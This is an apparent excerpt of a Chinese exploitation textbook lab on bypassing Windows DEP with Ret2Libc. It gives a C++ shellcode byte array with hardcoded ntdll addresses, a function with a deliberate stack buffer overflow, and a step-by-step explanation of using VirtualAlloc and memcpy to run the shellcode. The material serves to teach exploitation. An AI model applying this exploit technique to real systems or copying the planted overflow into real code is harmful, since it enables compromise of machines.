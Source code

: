 ```c++
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C"
    "\xBA\xD9\xBB\x7C"
    "\x5F\x78\xA6\x7C"
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\xBF\x7D\xC9\x77"
    "\xFF\x00\x00\x00"
    "\xAC\xAF\x94\x7C"//address of  in ntdll.memcpy 
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A"
    "\x38\x1E\x68\x63"
    "\x89\xD1\x4F\x68"
    "\x32\x74\x91\x0C"
    "\x53\xFF\x57\xFC"
    "\x53\xFF\x57\xF8"
    ;

void test()
{
 char tt[176];
 memcpy(tt,shellcode,450);
}
int main()
{
 HINSTANCE hInst = LoadLibrary("shell32.dll");
 char temp[200];
 test();
 return 0;
} 
```

对实验思路和代码简要解释如下。
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。
- （3）覆盖掉函数返回地址后，通过 Ret2Libc 技术，利用 VirtualAlloc 函数申请一段具有执行权限的内存。
- （4）通过 memcpy 函数将 shellcode 复制到 VirtualAlloc 函数申请的可执行内存空间中。
- （5）最后在这段可执行的内存空间中执行 shellcode，实现 DEP 的绕过。


实验环境如下表所示。
- 操作系统 Windows 2003 SP2 
- DEP 状态 Optout
- 编译器 VC++ 6.0 编译选项 禁用优化选项
- build 版本 release 版本


首先我们要能够利用 VirtualAlloc 申请具有执行权限的内存，让我们来分析一下 VirtualAlloc 具体实现流程：
- 从图 12.3.25 中大家可以看到 VirtualAlloc 函数中对各参数的调用与 VirtualProtect 函数如出一辙，因此我们可以选择与上个实验中一致的参数构造方法；
- 但是仔细观察后您会发现二者还是有区别的，VirtualAlloc 各参数不存在动态确定的问题，可以直接写到 shellcode 里边，它的布局要比 VirtualProtect 函数中的布局简单的多。
